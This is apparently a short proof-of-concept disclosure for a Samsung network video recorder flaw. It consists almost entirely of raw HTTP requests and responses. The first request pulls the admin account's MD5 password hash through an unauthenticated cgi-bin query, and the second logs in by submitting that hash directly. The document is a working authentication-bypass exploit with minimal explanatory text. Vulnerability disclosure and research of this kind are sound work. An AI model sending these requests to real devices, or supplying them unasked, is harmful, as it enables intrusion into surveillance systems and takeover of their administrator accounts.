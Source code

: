 # Samsung_NVR_vul

### First, get the MD5 hash password of the 'admin' account.

Send:
GET http://192.168.1.14/cgi-bin/main-cgi?json={"cmd":201,"szUserName_Qry":"admin","szUserName":"","u32UserLoginHandle":0} HTTP/1.1
Host: 192.168.1.14
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive

Recv:
HTTP/1.1 200 OK
Content-Type: text/html;CHARset=utf-8

{
	"szUserName":	"",
	"szLoginPasswd":	"e10adc3949ba59abbe56e057f20f883e",
	"au32LoginPasswd":	[13423221, 5515125, 6390751, 4733341, 12838108, 13423221, 5515125, 6390751, 10132668, 371291, 12838108, 13423221, 5515125, 10132668, 371291, 13423221, 10132668, 371291, 0, 0],
	"u16UserPermissionCnt":	1,
	"u8UserRole":	0,
	"u8UserBasePermission":	255,
	"u16UserExtralPermissionCnt":	1,
	"u32UserLivePermission":	[4294967295],
	"u32UserPTZPermission":	[4294967295],
	"u32UserVODPermission":	[4294967295],
	"u32UserRecordPermission":	[4294967295],
	"u32UserLocalBackup":	[4294967295],
	"code":	0,
	"success":	true
}

"szLoginPasswd":	"e10adc3949ba59abbe56e057f20f883e" is the MD5 hash password of 'admin' account.


### Second, log in to the device with that MD5 hash.

Send:

POST http://192.168.1.100/cgi-bin/main-cgi HTTP/1.1
Accept: text/html, application/xhtml+xml, */*
Referer: http://192.168.1.100/
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Content-Length: 246
DNT: 1
Host: 192.168.1.100
Pragma: no-cache

lLan=0&szUserName=admin&szUserPasswd=e10adc3949ba59abbe56e057f20f883e&szUserPasswdEx=%5B6477625%2C24215867%2C12838108%2C11382568%2C7503741%2C7198498%2C24215867%2C7503741%2C7198498%2C23345327%2C7198498%2C10192199%2C23345327%2C7198498%2C10192199%5D

szUserPasswd=e10adc3949ba59abbe56e057f20f883e is the MD5 hash password we read from the first step.
